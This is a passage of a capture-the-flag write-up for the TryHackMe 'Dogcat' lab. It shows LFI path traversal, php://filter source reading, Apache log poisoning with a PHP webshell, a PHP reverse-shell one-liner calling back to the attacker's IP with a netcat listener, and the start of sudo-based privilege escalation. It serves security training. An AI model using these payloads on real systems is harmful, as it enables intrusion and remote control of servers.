## ✨ Introduction
Welcome to the "Dogcat" CTF room analysis, where we'll explore LFI exploits and privilege escalation in depth. 🐾
The Dogcat room is a CTF room focused on attacks using Local File Inclusion (LFI) vulnerabilities and privilege escalation. The primary goal is to hack the system and read the hidden flag file.

## 🎯 Challenge Objectives
- **Breach the web server**
- Use the Local File Inclusion (LFI) vulnerability to gain system access
- Escalate privileges from web user (`www-data`) to administrator (`root`)
- **Find and read all four flag files**

# 🧠 TryHackMe - Dogcat 🐶🐱

> 🟡 Category: Web / Privilege Escalation
> 🧩 Difficulty: Medium
> 🕵️‍♂️ Mode: Capture the Flag CTF
> 🧩 URL: [Dogcat](https://tryhackme.com/room/dogcat)
> 👨‍💻 Author: Thanyakorn

---
## 📚 Table of Contents

- 🛰️ 1. Basic Information 📡 (Target Info)
- 🚀 2. Detailed Attack Procedure
- 🛠️ 2.1 Begin exploiting the system with LFI (Local File Inclusion)
- 🧪 2.2 Use php://filter to view the source code
- 🔍 2.3 Analyze the Base64-converted index.php
- 🧩 2.4 Bypass the .php extension with the ext parameter
- ☣️ 2.5 Begin the Log Poisoning process
- 📂 2.6 Access the log file to prepare to exploit the LFI vulnerability with Log Poisoning
- 💉 2.7 Place the PHP payload via the User-Agent (Log Poisoning)
- 🧫 2.8 Invoke the Webshell via LFI to test the whoami command
- 🐚 2.9 Prepare the Reverse Shell with PHP
- 🧬 2.10 Convert the payload and embed it in the log
- 🧨 2.11 Embed the payload and wait for the reverse shell
- 🏳️‍🌈 2.12 Find the first flag (flag1)
- 🏁 2.13 Find the second flag (flag2)
- 🔓 2.14 Privilege Escalation to root
- 🐳 2.15 Check the environment and search for additional clues
- 📦 2.16 Analyze the system backup file
- 🧨 2.17 Exploit via backup.sh to escape the container
- 🏴‍☠️ 2.18 Control the host and find the last flag (flag4.txt)

---
## 🛰️ 1. Basic Information 📡 (Target Info)
- Target IP: `10.10.85.123`
- Web servers: Apache Web Server

## 🚀 2. Detailed Attack Steps

### 🛠️ 2.1 Begin Penetrating the System with LFI (Local File Inclusion)

1. First, visit the webpage using the given IP address. You'll be presented with a main page that appears to be a website about dogs and cats (Dog/Cat).


2. Since the webpage is written in PHP, and we suspect LFI, we fire a payload to test LFI via directory traversal with this URL:

```bash
http://10.10.85.123/?view=dog/../../../../etc/passwd
```



- Use ../../../../ to attempt to exit the /dog/ folder and access the /etc/passwd file.
- However, we encounter an error:
> failed to open stream: No such file or directory in /var/www/html/index.php

3. From this error, we know that the web is calling the file `index.php` and is including the file received from the user.
This means that the app probably uses `include()` or `require()` and appends the value from the `view` parameter to the path.

4. Now, we wonder why the file can't be opened, even though `/etc/passwd` should be there.
→ It might be because the web appends `.php` automatically, such as `/etc/passwd.php` (which doesn't exist, resulting in an error).

5. To verify how the web is working and understand the logic behind it,
we need to read the source code of index.php.

### 🧪 2.2 Use php://filter to view the source code.

6. If we were to read the PHP file directly, it would be executed immediately (not read).
Therefore, we need to use `php://filter` is used to "filter files before displaying them" and convert them to Base64 format instead.

7. Fire this payload:

```bash
http://10.10.85.123/?view=php://filter/convert.base64-encode/resource=dog/../index
```

- `php://filter`: PHP stream wrapper
- `convert.base64-encode`: Output in Base64
- `dog/../index`: Return from `/dog/` and into `index` (actually index.php)



8. When you fire this URL, you'll get the Base64 content back.

→ Copy the resulting text and paste it into your website. [CyberChef](https://gchq.github.io/CyberChef/)

9. Set CyberChef to use Recipes with `From Base64`, and the source code for `index.php` will be output.



### 🔍 2.3 Analyzing the Base64-converted index.php

10. After firing the `php://filter` payload, we will receive a long Base64-encoded string.

11. Looking at the resulting code, we can see that:
- The `$ext` variable is used to store the "file extension".
- The website will always automatically append `.php`.
- It appears that the view we submit (such as dog or cat) is the primary input used by the website to include the file.

For example:

```bash
include($_GET["view"] . $ext);
```
→ This means that if we pass `view=dog/../../../../etc/passwd`, the website will try to include:
`dog/../../../../etc/passwd.php` → which doesn't exist, resulting in an error.

### 🧩 2.4 Bypassing the `.php` extension with the ext parameter

12. From the Base64-stripped source code, we see that the website appends `.php` to the end of every file via the `$ext` variable.
→ This prevents files like `/etc/passwd` or `index` from being read directly, as they will always become `index.php`.

13. Use the technique of bypassing the .php extension with ext=
- From the previously read source code We know that the website uses `$ext = '.php'` to prepend the file extension.
- We can "remove" this `.php` prependency by specifying the `ext` variable but leaving it blank.

🔧 Payload used:

```bash
http://10.10.85.123/?view=dog/../../../../etc/passwd&ext=
```



📌 What happens is:

- PHP will now attempt to include files from the path we specified without the `.php` prependency.
- This indicates that the .php bypass was successful and we can now fully use LFI.

📍After testing that we can read the file, The next step is to launch Burp Suite to begin deploying the Log Poisoning payload, or embedding PHP code through the Access Log.

### ☣️ 2.5 Starting the Log Poisoning Process

14. Our goal is to embed PHP code into the access log and then exploit the existing LFI vulnerability to execute that code from the log file.

15. Here's what you need to do:

🔧 15.1 Launch a proxy and prepare Burp Suite
- Launch Burp Suite.
- Open a browser configured to use Burp's proxy (e.g., Firefox).
- Visit the target website. (`http://10.10.85.123/`) to allow Burp to intercept requests.



📩 15.2 Send Requests to Repeater

- After loading the web page, return to Burp → go to the **HTTP History** tab.
- Right-click on the desired request → select **Send to Repeater**.

### 📂 2.6 Access the Log File to Prepare for Exploiting the LFI Vulnerability with Log Poisoning
🧪 16 Change the path to access log and send the request.
- In the Repeater tab of Burp Suite:
- Change the path in the `view=` parameter to point to the log file:
```bash
view=dog/../../../../../../var/log/apache2/access.log
```
- Then click Send to try viewing the file contents.



✅ 16.1 Check the Results
If the response displays log contents, such as lines beginning with IP, Request Line, or User-Agent, the log was successfully accessed.

ℹ️ Note:
- The log used is: `/var/log/apache2/access.log`, which stores Apache's access log.
- I used Wappalyzer (a browser extension) to verify that the web server is Apache and running PHP.

🧾 Analyze Access Logs and Prepare for User-Agent Injection
17. Check the Access Log (access.log)
- After using the LFI technique to access the `/var/log/apache2/access.log` file,
- Let's look at the bottom line of the log, which is the most recent request we sent.



- This is important: we can see the User-Agent we sent.

🧠 Analysis:
- This access log shows that the server logs every request, including headers such as `User-Agent`.
- And since this log can be read through the LFI vulnerability, this means...

✅ If we send PHP code through a User-Agent and the server logs it → We can combine this log file to execute PHP code!

18. Record the Attacker's IP Address
- From the log line, we can see the IP address of the machine that sent the incoming request.



- In this case, it's:

```bash
10.9.0.160
```

- Make a note of this IP address, as we'll use it to create a reverse shell back to our machine in the next step.

### 💉 2.7 Sending PHP Payload through a User-Agent (Log Poisoning)
> After we've confirmed that the `/var/log/apache2/access.log` file can be read through LFI and our request is logged—including the entire line— `User-Agent`—We'll use Log Poisoning to inject PHP code into the log file.

19. 🛠 Payload Step
- In the Repeater tab:
- We'll need to remove the agent (User-Agent).



20. Next, we'll modify the User-Agent to:

```bash
<?php system($_GET['cmd']); ?>
```



📌 Code Explanation:
- `<?php ... ?>` is the PHP code.
- `system($_GET['cmd']);` will execute the shell command passed in via the query parameter named cmd.

### 🧫 2.8 Run Webshell via LFI to test the whoami command.
> After we've embedded the PHP code (<?php system($_GET['cmd']); ?>) has been added to the log.

The next goal is to test whether we can actually run system commands.

✅ How to invoke Webshell:

21. Paste the URL as follows:

```bash
http://10.10.85.123/?view=/var/log/apache2/access.log&ext=&cmd=whoami
```

Parameter explanation:
- `view=` → Use LFI to load the log file containing the embedded code.
- `ext=` → Return a blank value to prevent the system from automatically adding .php.
- `cmd=whoami` → Run the whoami command to see which user we're running with.

22. After pasting the URL and sending, you'll see that nothing is found in the response. You'll need to click Send again to get the results.



23. Why do I have to click Send twice?
> After we inject PHP code into access.log and attempt to load that file via LFI to execute a command like whoami,
the first time we press Send in Burp Suite (or load the URL through a browser),
the command output may not be visible because the log file hasn't been updated in real-time for that second.

When we do this, we see the output as:

```bash
www-data
```



This indicates that our webshell has successfully launched and we can now use commands such as ls, id, uname -a, etc.

### 🐚 2.9 Preparing a Reverse Shell with PHP
> After we've tested that the `whoami` command works via the webshell embedded in the access.log,
the next step is to launch a Reverse Shell to remotely take control of the target machine.

🔧 Tools Used:
We'll be using Pentestmonkey. This is a website that includes cheat sheets for Web Shell and Reverse Shell.
[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

🧾 Reverse Shell Code (PHP):

24. Copy the payload:

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```



- `fsockopen()` opens a TCP connection to the specified IP/Port.
- `exec()` will launch an interactive shell `(/bin/sh -i)`.
- When this code is embedded in the log and loaded via LFI, the server will connect back to your machine.

⚠️ Note:
- Before copying the code from the web, change the IP address (`10.0.0.1`) and Port (`1234`) to your actual machine.

### 🧬 2.10 Convert the Payload to Embed in the Log
> After the reverse shell command is created, the next step is to encode the payload so that it can be embedded safely and syntactically in the log file.

25. Using CyberChef:

We will be using CyberChef, an online encryption/decryption tool. Data analysis, etc.

✅ Steps:
1. Extract the resulting payload:

```bash
php -r '$sock=fsockopen("10.9.0.160",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

2. Paste it into CyberChef.
3. On the left, find and drag the "URL Encode" formula into it.
4. CyberChef will convert the payload into URL-safe format.



5. Copy the results to use when firing through Burp Suite.

### 🧨 2.11 Embed the Payload and Wait for the Reverse Shell
> Once we have the URL-encoded payload, the next step is to embed it into the log and wait for the reverse shell to connect.

26. Execute in Burp Suite:
- Return to Burp Suite → Repeater tab
- Add the parameter Append `cmd=<payload>` to the end of the URL



27. Prepare a listener on your machine:
Open a terminal and run the following command to listen for connections:

```bash
nc -lvnp 1234
```

🚀 Trigger the connection:
Return to Burp Suite and press Send.

📥 If the payload is successful, you should see an incoming connection in the terminal.



✅ Confirm: Once you have your shell back, you can immediately type commands like whoami to view the user's permissions on that server.

### 🏳️‍🌈 2.12 Find the first flag (flag1)
> After you have your shell back,

28. Check the files in your current directory:

📥 Use the command:

```bash
ls
```

📂 Result: The file `flag.php` was found.

📖 Read the contents of the flag:

📥 Use the command:

```bash
cat flag.php
```



📄 Then, copy the contents of the flag and paste it into the answer field on TryHackMe.

✅ Finished collecting flag1

### 🏁 2.13 Find the second flag (flag2)
> After collecting flag1, we'll go look for flag Next

29. Change directory one level back:

```bash
cd ..
ls
```

📁 Result: Found a file named `flag2_QMW7JvaY2LvK.txt`

📖 Read the contents of flag2:

```bash
cat flag2_QMW7JvaY2LvK.txt
```



📄 Copy the displayed flag values and paste them into the TryHackMe system.

✅ Finished saving flag2

### 🔓 2.14 Privilege Escalation to root
> Now that we have flag2, it's time to examine the user's privileges to determine how to grant privilege escalation.

30. Check the commands that work with `sudo`:

```bash
sudo -l
```



31. Privilege Escalation with sudo env
- We go to the [GTFOBins] website (https://gtfobins.github.io/#) and search for `env`.

